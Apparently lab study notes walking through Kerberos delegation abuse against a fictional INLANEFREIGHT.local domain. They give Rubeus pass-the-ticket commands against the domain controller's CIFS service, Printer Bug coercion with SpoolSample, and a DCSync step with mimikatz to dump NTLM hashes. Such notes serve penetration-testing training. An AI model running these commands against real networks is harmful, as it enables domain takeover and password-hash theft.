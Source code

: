 ### Use the TGT to access the Domain Controller's CIFS service

#### Using the TGT to Request a TGS for the CIFS service
```PowerShell
.\Rubeus asktgs /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /service:cifs/dc01.INLANEFREIGHT.local /ptt
```

#### If previous command is unsuccessful, use *renew action* to get a new TGT
```PowerShell
.\Rubeus.exe renew /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /ptt
```

Once a TGT or TGS is obtained, we can list the contents of the DC file system
#### Using the ticket
```PowerShell
dir \\dc01.inlanefreight.local\c$
```

We could also get a TGS ticket for the LDAP service and ask for synchronization with the DC to get all the users' password hashes

### Leveraging Printer Bug

#### Monitoring for Tickets with Rubeus
```PowerShell
.\Rubeus.exe monitor /interval:5 /nowrap
```

#### Running SpoolSample to abuse Printer Bug
```PowerShell
.\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local
```
The syntax for this tool is `SpoolSample.exe <target server> <caputure server>`, where the target server in the example lab is `DC01` and the capture server is `SQL01`.

TGT from target server should be retrieved on console running Rubeus

#### Renewing the ticket with Rubeus
```PowerShell
.\Rubeus.exe renew /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCBFVhggRRMIIETaADAgEFoRUbE0lOTEFORUZSRUlHSFQ
uTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQDMIID/6ADAgESoQMCAQKiggPxBIID7XBw4BNnnymchVY/H/
9966JMGtJhKaNLBt21SY3+on4lrOrHo<SNIP> /ptt
```
With the TGT for DC01$ in memory, you can perform a DCSync
#### Perform DCSync attack to retrieve a target user's NTLM PW hash
```cmd.exe
mimikatz.exe
```
